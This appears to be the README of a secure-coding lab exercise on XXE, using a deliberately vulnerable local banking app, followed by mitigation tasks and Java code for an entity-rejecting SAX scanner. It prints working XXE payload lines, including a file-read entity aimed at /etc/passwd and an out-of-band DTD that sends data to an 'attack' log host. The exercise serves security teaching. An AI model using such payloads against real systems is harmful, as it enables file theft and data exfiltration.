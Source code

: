 # Exercise 8 - XML External Entities (XXE) 
Exercise to help you understand XEE exploits and its mitigation

   
## Brief description of the exercise
The applications in this scenario are:
* the v-bank application at http://localhost:8080 
* In the _etc/xxe_ folder you may find the XML payloads and DTDs
  * For the standard XXE scenario:
    * The XML payload: xxe_standard.xml 
  * For the out-of-band XXE scenario
    * The XML payload: xxe_out-of-band.xml
    * And the DTD is also available at (for ease of use): http://localhost:8080/xml/evil.dtd
\
But first you have to find the XXE vulnerability in the v-bank-app.

## Look for XXE vulnerabilities

Start the application.

### Hint 
XXE vulnerabilities are to be found where XML parsing/processing takes place.
This is actually an upload button on the home page, where transactions in XML format can be uploaded.

### Present vulnerability 
_BankController.uploadTransactions(...)_ where the processing of the uploaded XML from the home page takes place.

## Exploit to understand

Please find the below files in the _etc/xxe_ folder:
* transactions.xml: The normal payload creating 2 transactions;
* xxe_standard.xml: the XXE payload calling the victim service and parsing its response/output into the note field of the transaction;
* xxe_out-of-band.xml: XXE payload also calling the victim service whose response/output it sends to the attacker's log service.  

1. Test
   * Login as Victim (password: Victim_01) and upload transactions.xml. 
   * You should see 2 transactions in the transaction history page.

1. Standard XXE
   * Logged in as bob, please upload xxe_standard.xml
   * 1 new transaction should appear in the history screen: 
     * In the note file of the newly uploaded transaction you should see "...(you fall victim to a standard XXE attack!)"
   * What was happening?
     * ```<!ENTITY xxe SYSTEM 'http://127.0.0.1:8080/xml/secret.txt'>``` entry created a victim entity with the output of the _secret.txt_ as its value (please note that _secret.txt_ can be behind a firewall inaccessible to the attacker directly) . When processing the XML the _&victim_ entity reference actually behaves as a constant initialized with the output or response of the system resource at _http://127.0.0.1:8080/xml/secret.txt_. 
     * Then because of the ```<note>&xxe;</note>``` the XML parser places it into the the note field. When the XML processor finally creates the object of class _Transaction_ its _comment_ property will be set accordingly.
   * If you change the URI of the _xxe_ ENTITY to a file you may read files from the system as well. (I.e. file:///etc/passwd, or any file the running process can access)
    
1. Out-of-Band XXE    
   * Logged in as bob, please upload xxe_out-of-band.xml
   * 1 new transaction should appear in the history screen: 
     * In the note file of the newly uploaded transaction you should see "...(you fall victim to a Out-of-Band XXE attack!)"
     * Please check the logs sent to the log service at: http://[MY_IP]:8080/nudget
   * What was happening?
     * ```<!ENTITY victim SYSTEM 'http://service.127.0.0.1.xip.io:9090/victim'>``` entry created a victim entity with the outout of the _victim_ _service_ as its value
     * Then in the_evil.dtd used the %victim; parameter entity (parameter entities are denoted by % and can be reused within the DTD) to create another %send; entity which when evaluated will send the value of %victim; to the log service at http://attack.127.0.0.1.xip.io:9090/log 
     ```<?xml version="1.0" encoding="UTF-8"?>
            <!ENTITY % all "<!ENTITY send SYSTEM 'http://attack.127.0.0.1.xip.io:9090/log?msg=%victim;'>">
            %all;
     ```
     * Because the output of the attacked service (normally confidential information) is send to the log service and is not received with the response it is called Out-of-Band XXE. 
       (It is also called Blind XXE) 
       
 1. Tasks
    * (1) Add a lexical parser to preprocess the XML and fail if any entities are found 
    * (1) Configure the XML parser to:
      * disallow external DTDs so that it cannot not load the evil DTD
      * disallow entities in DTDs so that no system entities can be created within the DTD from files or URLs
      * allow secure XML processing: https://docs.oracle.com/javase/7/docs/api/javax/xml/XMLConstants.html#FEATURE_SECURE_PROCESSING  
      __The problem with this approach is that there are lots of XML processors (SAX, DOM, Stax, etc) and implementations (Xalan, Xerces, etc) and each has its own set of supported configuration features. For example, 
      with the current configuration I could not set any property on the parser to disallow external DTDs or entities and the SECURE_XML_PROCESSING feature did nothing. Therefore, you need to make sure that
      the XML stream or file does not contain entities before passed to the XML processor API (you can do it with the lexical parser).__
    * Hints:
      * (1) create a new class: 
       ```
       public class AntiEntityScanner {
       
           private static final String LEXICAL_HANDLER = "http://xml.org/sax/properties/lexical-handler";
       
           public static void check(final InputStream data) throws Exception {
               final SAXParser saxParser = SAXParserFactory.newInstance().newSAXParser();
               final ElementHandler handler = new ElementHandler();
               saxParser.getXMLReader().setProperty(LEXICAL_HANDLER, handler);
               saxParser.parse(data, handler);
           }
       
           public static final class ElementHandler extends org.xml.sax.ext.DefaultHandler2 {
               @Override
               public void startEntity(final String name) throws SAXException {
                   throw new IllegalArgumentException("Entities are illegal");
               }
           }
       }
       ```
     * (1) and in _BankController.uploadTransactions(...)_:
       ```
       InputStream incomingXML = file.getInputStream();
       //scan for entities in incoming XML without parsing the content
       AntiEntityScanner.check(incomingXML);
       ```
The solution is available in the exercise5-solution branch at https://github.com/vargadan/v-bank/tree/exercise5-solution
\
You may find more on XXE mitigation at https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.md